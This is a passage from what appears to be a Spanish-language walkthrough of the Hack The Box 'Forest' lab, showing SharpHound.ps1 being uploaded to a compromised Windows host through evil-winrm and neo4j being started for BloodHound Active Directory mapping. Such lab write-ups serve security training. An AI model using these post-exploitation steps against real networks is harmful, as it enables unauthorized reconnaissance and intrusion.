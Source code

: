 - Ahora lo subimos ala maquina es importante estar en la misma ruta conectados con `evil-winrm` para poder subir de manera correcta el archivo si no podemos usar `curl`.

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> upload SharpHound.ps1
                                        
Info: Uploading /home/miguel7/Hackthebox/Forest/content/SharpHound.ps1 to C:\Users\svc-alfresco\Documents\SharpHound.ps1
                                        
Data: 1297764 bytes of 1297764 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> 
```

- Ahora vamos a iniciar el **neo4j** para poder usar la herramienta **Bloodhound**.

```bash
❯ neo4j start
Directories in use:
home:         /var/lib/neo4j
config:       /etc/neo4j
logs:         /var/log/neo4j
plugins:      /var/lib/neo4j/plugins
import:       /var/lib/neo4j/import
data:         /var/lib/neo4j/data
certificates: /var/lib/neo4j/certificates
licenses:     /var/lib/neo4j/licenses
run:          /var/lib/neo4j/run
Starting Neo4j.
Started neo4j (pid:98162). It is available at http://localhost:7474
There may be a short delay until the server is ready.
```

- Ahora si vamos a nuestro navegador y nos dirigimos a nuestro `localhost` y el puerto veremos la interfaz gráfica de **neo4j** y procederemos a conectarnos con nuestras credenciales en caso de que sea tu primera vez que te conectas a este servicio tienes que crear un usuario nuevo.

<p align="center">
<img src="/assets/hackthebox/img/machines/easy/forest/web2.png">
</p>
